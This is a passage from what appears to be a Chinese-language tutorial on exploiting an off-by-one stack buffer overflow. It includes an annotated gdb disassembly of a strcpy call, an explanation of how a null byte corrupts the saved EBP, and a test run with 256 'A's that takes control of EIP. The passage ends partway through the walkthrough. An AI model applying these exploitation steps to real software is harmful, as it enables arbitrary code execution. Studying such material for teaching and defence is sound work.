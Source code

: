 ```asm
Dump of assembler code for function bar:
 //Function Prologue
 0x08048477 <+0>: push %ebp                    //backup caller's (foo) ebp
 0x08048478 <+1>: mov %esp,%ebp                //set callee's (bar) ebp to esp
 0x0804847a <+3>: sub $0x108,%esp              //create stack space
 0x08048480 <+9>: mov 0x8(%ebp),%eax           //bar arg
 0x08048483 <+12>: mov %eax,0x4(%esp)          //strcpy arg2
 0x08048487 <+16>: lea -0x100(%ebp),%eax       //buf
 0x0804848d <+22>: mov %eax,(%esp)             //strcpy arg1
 0x08048490 <+25>: call 0x8048370 <strcpy@plt> //call strcpy

 //Function Epilogue
 0x08048495 <+30>: leave                       //unwind stack space + restore ebp
 0x08048496 <+31>: ret                         //return
End of assembler dump.
(gdb)
```

堆栈布局

![](http://upload-images.jianshu.io/upload_images/118142-7017780c4a9178ec.png)

当我们已经知道256字节的用户输入，用空字节可以覆盖`foo`的EBP的LSB。所以当`foo`的存储在目标缓冲区`buf`之上的EBP被一个`NULL`字节所覆盖时，ebp从`0xbffff2d8`变为`0xbffff200`。从堆栈布局我们可以看到堆栈位置`0xbffff200`是目标缓冲区`buf`的一部分，由于用户输入被复制到该目标缓冲区，攻击者可以控制这个堆栈位置（`0xbffff200`），因此他控制指令指针（eip ）使用他可以实现任意代码执行。让我们通过发送一系列256的“A”来测试它。

测试步骤1：EBP是否覆盖，从而可能覆盖返回地址？

```
(gdb) r `python -c 'print "A"*256'`
Starting program: /home/sploitfun/lsploits/new/obo/stack/vuln `python -c 'print "A"*256'`

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```

以上输出显示由于EBP覆盖，我们已经控制指令指针（EIP）。

测试步骤2：距离目标缓冲区的偏移是多少？

现在，我们可以从目标缓冲区`buf`的起始位置开始找到偏移量，我们需要替换我们的返回地址。记住在off by one 漏洞中，我们不会覆盖堆栈中存储的实际返回地址（像我们在基于堆栈的缓冲区溢出中），而是攻击者控制的目标缓冲区`buf`内的4字节内存区域将被视为返回地址位置（在off by one溢出之后）。因此，我们需要找到这个返回地址位置偏移量（从`buf`），它是目标缓冲区`buf`本身的一部分。不是很清楚，但是没有问题继续阅读！

现在让我们尝试从文本段地址`0x08048490`开始了解CPU的执行情况。

+   `0x08048490` - 调用`strcpy` - 此指令执行导致逐个溢出，因此`foo`的EBP值（存储在堆栈位置`0xbffff2cc`）从`0xbffff2d8`更改为`0xbffff200`。
+   `0x08048495` - `leave` - `leave`指令解开此函数的堆栈空间并恢复ebp。

```asm
leave: mov ebp, esp;        //unwind stack space by setting esp to ebp. 
       pop ebp;             //restore ebp
*** As per our example: ***
leave: mov ebp, esp;        //esp = ebp = 0xbffff2cc
       pop ebp;             //ebp = 0xbffff200 (Overwritten EBP value is now stored in ebp register); esp = 0xbffff2d0
```
